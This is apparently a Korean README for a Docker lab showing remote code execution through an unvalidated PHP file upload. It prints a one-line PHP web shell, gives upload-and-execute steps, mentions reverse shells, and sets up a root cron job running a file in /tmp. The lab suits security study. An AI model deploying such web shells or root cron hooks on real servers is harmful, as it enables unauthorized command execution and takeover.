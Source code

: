 # 1. RCE (File Upload) 취약점 이란?

파일 업로드 취약점은 서버가 업로드된 파일에 대해 충분한 검증 없이 저장 및 실행하도록 허용하는 보안 문제로써 공격자는 악성 파일을 업로드하여 원격 명령 실행, 리버스 쉘 획득 등 다양한 공격을 수행할 수 있습니다

# 2. PoC 개요

본 PoC는 파일 업로드 취약점을 이용해 RCE를 재현합니다.

공격자가 악성 PHP 웹쉘을 업로드하고 이를 실행하여 서버에서 임의 명령어를 실행할 수 있음을 실습 환경에서 확인할 수 있습니다.

# 3. PoC 환경 구성

- 언어 및 프레임워크 : PHP 8.2 (내장 웹서버 사용)
- PoC 구성
    - `upload.php`: 파일 업로드 및 실행 가능한 PHP 웹쉘 포함
    - `Dockerfile`: 도커 이미지 생성용 설정
- Docker 환경
    - Docker 이미지 빌드 후 컨테이너 실행 시 PHP 내장 웹서버가 0.0.0.0:8080 포트에서 실행
    - 업로드 파일은 uploads/ 폴더에 원본 파일명으로 저장 (검증 및 난독화 미실시)

# 4. PoC 실행 방법

1. Docker 이미지 가져오기
    
    ```bash
    $ docker pull dukbong/poc:2025-06-fileupload
    ```
    
2. Docker 컨테이너 실행
    
    ```bash
    docker run --name fileupload -p 8080:8080 dukbong/poc:2025-06-fileupload
    ```

3. Docker 환경 구성 ( 다양한 취약점을 위한 구성 )

    1. root 권한으로 접속
    ```bash
    docker exec -it --user root fileupload /bin/bash
    ```
    2. root 권한으로 cron 작성
    ```bash
    vi /etc/cron.d/fileupload

    * * * * * root /tmp/fileupload
    ```
    3. 권한 설설정
    ```bash
    chmode 744 /etc/cron.d/fileupload
    ```
    4. cron 재시작
    ```bash
    service cron restart
    ```
    
4. 웹 애플리케이션 접속
    
    ```bash
    http://localhost:8080
    ```
    
5. 주요 엔드포인트
    
    | 경로 | 설명 | 메소드 | 비고 |
    | --- | --- | --- | --- |
    | / | 파일 업로드 페이지 | GET, POST | 취약점 시연 대상 |
    | /uploads/{file_name} | 파일 경로 | GET | 취약점 시연 대상 |

6. 악성 코드
    
    ```php
    <?php
        system($_GET['cmd']);
    ?>
    ```

# 5. 재현 절차

1. 웹 페이지 접속 후 임의의 PHP 웹쉘 파일 (예: `shell.php`) 업로드 합니다.
2. 업로드 성공 후 `/uploads/shell.php?cmd=id` 형태로 접근합니다.
3. 서버에서 명령어가 실행되어 결과가 출력됨을 확인합니다.
4. 리버스 쉘 페이로드도 동일 방식으로 업로드 후 실행 가능합니다.

# 6. 느낀점 및 기술적 이해
